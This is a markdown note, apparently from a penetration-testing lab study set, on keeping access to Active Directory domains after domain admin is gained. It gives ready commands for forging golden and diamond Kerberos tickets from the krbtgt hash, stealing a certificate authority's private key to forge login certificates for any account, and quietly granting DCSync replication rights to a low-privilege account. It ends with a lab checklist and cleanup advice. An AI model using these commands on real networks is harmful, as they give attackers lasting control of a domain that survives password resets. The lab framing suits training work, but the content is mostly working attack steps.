

# 🔒 12 — Persistence (per domain, post-DA)

> [!abstract] Summary
> **Start:** DA / EA in a domain + that domain's `krbtgt` hash (or CA key).
> **Goal:** durable re-entry that survives password resets.



## Golden ticket (per-domain krbtgt)

```bash
# dump domain SID + krbtgt first (secretsdump -just-dc)
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <DOMAIN_SID> \
  -domain empire.local falcon
export KRB5CCNAME=falcon.ccache
```

## Diamond ticket (stealthier — modifies a real TGT)

```bash
impacket-ticketer -request -nthash <krbtgt> -domain empire.local \
  -domain-sid <SID> -user <real_user> -password <pw> diamond
```

## CA key theft — forge certs forever

> [!tip] Best persistence vs krbtgt rotation
> Stealing the `corp-CA` private key lets you forge an authentication cert for **any** principal indefinitely — unaffected by password/krbtgt resets.
> ```bash
> certipy ca -backup -ca corp-CA -u Administrator@empire.local -hashes :<hash>
> certipy forge -ca-pfx corp-CA.pfx -upn administrator@empire.local
> certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.0.10
> ```

## Quiet DCSync backdoor

```bash
# grant an innocuous low-priv account replication rights
bloodyAD -d empire.local --host 10.10.0.10 -u Administrator -p '<pw>' \
  add dcsync <low_priv_user>
```

## Per-domain checklist

- [ ] empire.local — golden + CA forge
- [ ] eu.empire.local — golden (its own krbtgt)
- [ ] rebel.local — golden
- [ ] trade.corp — golden
- [ ] Document everything, then **reset the lab**.

> [!warning] Cleanup
> Golden/diamond tickets and forged certs are long-lived. After the exercise, rotate `krbtgt` **twice** in each domain and revoke/reissue the CA to fully evict.
